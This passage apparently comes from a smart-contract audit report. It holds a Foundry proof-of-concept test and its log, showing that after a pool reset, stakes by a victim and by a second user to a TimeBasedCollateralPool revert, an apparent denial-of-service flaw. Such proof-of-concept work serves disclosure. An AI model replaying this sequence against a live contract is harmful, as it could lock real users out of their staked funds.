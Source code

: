 ```
    console.log(&quot;Step : Victim Unstake from TimeBasedCollateralPool&quot;);
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).unstake(IERC20(USDC), unstake_amount);
    vm.stopPrank(); 
   
    
    amount &#x3D; 50*10**6; 
    signature &#x3D; CreateSignature(VictimPrivateKey, amount, victim_nonce++);
    vm.startPrank(victim);
    console.log(&quot;Victim stake to TimeBasedCollateralPool, stake amount: &quot;,amount);
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
    
    
    vm.warp(1730605189); // Sun Nov 03 2024 03:39:49 GMT+0000
    
    amount &#x3D; 50*10**6; 
    signature &#x3D; CreateSignature(VictimPrivateKey, amount, victim_nonce);
   
    vm.startPrank(victim);
    console.log(&quot;Victim stake to TimeBasedCollateralPool&quot;);
    console.log(&quot;Victim transaction expected to revert&quot;); 
    vm.expectRevert();
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
    
    amount &#x3D; 50*10**6; 
    signature &#x3D; CreateSignature(PrivateKey_2, amount, user2_nonce++);
   
    vm.startPrank(user2);
    console.log(&quot;user2 stake to TimeBasedCollateralPool&quot;);
    console.log(&quot;user2 transaction expected to revert&quot;); 
    vm.expectRevert();
    TimeBasedCollateralPool(TimeBasedCollateralPool_contract).stake(IERC20(USDC), amount, signature); 
    vm.stopPrank(); 
   

} 
```

\`\`\`

Test Log:

https://gist.github.com/Perseverancesuccess2021/f7643506a8ed7cc80ec111ce111151da#file-testunstake\_241103\_0850-log

\`\`\` \[PASS] testUnStake() (gas: 508557) Logs: Setup Precondition for the test case Deploying TimeBasedCollateralPool Proxy contract that is VisibleBeaconProxy points to TimeBasedCollateralPool\_beacon Initialize TimeBasedCollateralPool contract Approve the TimeBasedCollateralPool\_contract as the collateralizable contract Balance of USDC before depositing: 10000000000 Approve the CollateralVault\_contract to spend USDC to deposit USDC Step: Deposit 10000 USDC to CollateralVault for the user Balance of USDC before depositing: 10000000000 Approve the CollateralVault\_contract to spend USDC to deposit USDC Step: Deposit 10000 USDC to CollateralVault for the user Victim stake to TimeBasedCollateralPool. Stake amount: 100000000 user2 stake to TimeBasedCollateralPool, Stake amount: 100000000 Get getAccountTokenState accountTokenState: 0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7 100000000 0 Victim can unstake amount: 100000000 Scenario: 1 Step: reset pool Pool was reset accountTokenState before unstake victim: 0xe05fcC23807536bEe418f142D19fa0d21BB0cfF7 accountTokenState before unstake accountTokenState.totalUnits: 100000000 accountTokenState before unstake accountTokenState.firstPendingUnstakeUnits: 0 Step : Victim Unstake from TimeBasedCollateralPool Victim stake to TimeBasedCollateralPool, stake amount: 50000000 Victim stake to TimeBasedCollateralPool Victim transaction expected to revert user2 stake to TimeBasedCollateralPool user2 transaction expected to revert